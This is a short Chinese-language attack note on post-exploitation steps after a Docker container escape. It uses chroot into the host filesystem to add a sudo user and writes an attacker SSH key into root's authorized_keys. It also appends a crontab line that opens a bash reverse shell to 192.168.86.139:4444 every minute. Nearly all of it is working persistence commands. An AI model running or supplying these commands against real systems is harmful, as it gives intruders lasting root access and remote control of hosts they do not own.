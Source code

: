 逃逸成功之后操作---docker

2023年12月2日

14:20

 

逃逸成功

后续操作

1、添加用户

2、写入ssh key

3、计划任务

 

1、添加用户

chroot /test1 adduser john

逃逸得目录 添加用户 用户名

 

\# 将用户 john 添加到 sudo 组

chroot /test1 /usr/sbin/usermod -aG sudo john

 

![image-20231202152434323](./assets/image-20231202152434323.png)

 

![image-20231202152437567](./assets/image-20231202152437567.png)

登录：ssh john@your_server_ip

sudo -s

![image-20231202152441825](./assets/image-20231202152441825.png)

 

 

2、写入ssh key密钥登录

cd /test1/root/.ssh 到root ssh目录

 

本机执行：ssh-keygen -t ed25519 -N "123456"

N是密码

![image-20231202152445751](./assets/image-20231202152445751.png)

在目标机器插件authorized_keys文件

cat id_ed25519.pub

![image-20231202152450127](./assets/image-20231202152450127.png)

 

目标机器执行下面：

cat \>\> authorized_keys \<\< EOF

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIQVnh0Y2GhCxrEE7BSPPsN0oI13luK+r0yFZBidahtJ root@master-1

EOF

![image-20231202152453611](./assets/image-20231202152453611.png)

ssh -i id_ed25519 root@192.168.86.218

![image-20231202152457511](./assets/image-20231202152457511.png)

 

3、计划任务反弹shell【根据对方系统不同，反弹shell命令不同】

echo -e "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.139/4444 0\>&1\\n" \>\> /test1/etc/crontab

![image-20231202152501328](./assets/image-20231202152501328.png)

 
